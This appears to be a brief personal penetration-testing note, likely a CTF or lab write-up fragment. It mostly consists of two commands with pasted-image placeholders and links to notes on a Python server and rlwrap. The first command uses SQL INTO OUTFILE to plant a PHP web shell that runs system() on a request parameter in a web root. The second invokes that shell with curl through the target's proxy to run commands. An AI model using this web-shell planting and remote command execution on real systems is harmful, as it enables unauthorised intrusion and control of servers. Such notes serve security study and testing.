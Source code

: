 ![[Pasted image 20220610141148.png]]
```
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE 'C:/wamp/www/shelly.php';
```
![[Pasted image 20220610141248.png]]
```
curl "http://127.0.0.1:8080/shelly.php?cmd=whoami" --proxy $TARGET:3128
```
[[Python#Server]]
[[1._rlwrap]]